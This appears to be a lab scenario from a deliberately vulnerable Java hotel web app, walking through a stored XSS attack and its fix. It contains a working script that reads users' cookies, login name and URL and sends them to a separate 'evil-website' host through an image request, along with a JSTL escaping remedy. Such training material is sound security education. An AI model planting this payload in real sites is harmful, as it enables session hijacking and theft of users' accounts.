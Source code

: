 Java: XSS
=========

Scenario summary
----------------

The attacker will create an hotel description that has an embedded script that
will send the cookies of a user browsing the web site to the attacker website.

Scenario description
--------------------

To test whether the injection is possible, write in the description field the
following code:

	<script>alert('hello');</script>

To send the cookies of users to an evil website, set the following code as the
description of an hotel.

	<h3>That hotel!</h3>
	<div id="myHotel">Welcome!</div>
	<script type="text/javascript">
	var data = "";
	data += "[user: " + $("#login a.btn-primary").text() + "]";
	data += "[url: " + document.location.href + "]";
	data += "[cookie: " + document.cookie + "]";
	var imgsrc = "http://localhost:8081/evilhotel/sendData?data=" + escape(data);
	$("<img />").attr("src", imgsrc).appendTo($("#myHotel"));
	</script>

In the *evil-website* console, the user information should appear.
The sent request can also be seen using *FireBug* or *WebScarab*.

(Don't forget to change the host with what is needed...)

Vulnerable code
---------------

In the views, the view `hotel/view.jsp` will not escape the value of the hotel
description.

The *evil-website* server must be deployed for this attack to work.

Preventing the attack
---------------------

*All* data that is printed as HTML must be escaped or at least "white list"
validated.

To escape HTML using JSP, use the available JSTL:

	<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>

	<!-- valid string -->
	<c:out value="${myString}"/>
	<!-- possible injection -->
	${myString}

